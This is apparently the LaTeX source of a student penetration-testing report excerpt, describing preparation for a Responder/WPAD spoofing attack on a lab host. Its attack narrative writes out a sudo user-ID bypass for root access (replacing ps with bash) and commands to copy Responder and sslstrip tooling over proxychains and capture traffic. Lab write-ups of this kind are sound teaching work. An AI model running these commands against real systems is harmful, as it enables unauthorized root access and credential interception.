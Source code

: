\documentclass[notitlepage]{article}
\begin{document}
    \subsubsection*{Mitigation or Resolution Strategy}
    
    	This is where you describe how to address the problem.
    	Can it be completely solved or can you, at least, reduce the
    	likelihood that the vulnerability can be exploited?
		



\section{Attack Narrative}

    \subsection{Initial Checks}
    Before we used responder, it was important to first use tcpdump to give some clues
    as to whether responder would work at all. To begin, we connected to devbox as usual
    and then used the previously found exploit and changed the command that was running ps
    to bash as follows.
   \begin{verbatim}
cp /usr/bin/bash /usr/bin/ps
sudo -u#-1 ps   
   \end{verbatim}
    Once we had access, we can then scp over the ssl-extras directory and use the tcpdump as follows:
\begin{verbatim}
proxychains scp -r sslstrip-extras l.strauss@devbox.artstailor.com:
proxychains scp -r /usr/share/responder l.struass@devbox.artstailor.com:
sudo ./tcpdump -i ens32 -w ~/capture.pcap -Z l.strauss
\end{verbatim}
    After examining the capture.pcap file using wireshark, the following observation was made\\
\texttt{[image: ~/Desktop/school/fall2023/pen/ex/ex100/tcpdump\_1]}\\
    Which signified that spoofing wpad might bear fruit as expected/
\end{document}
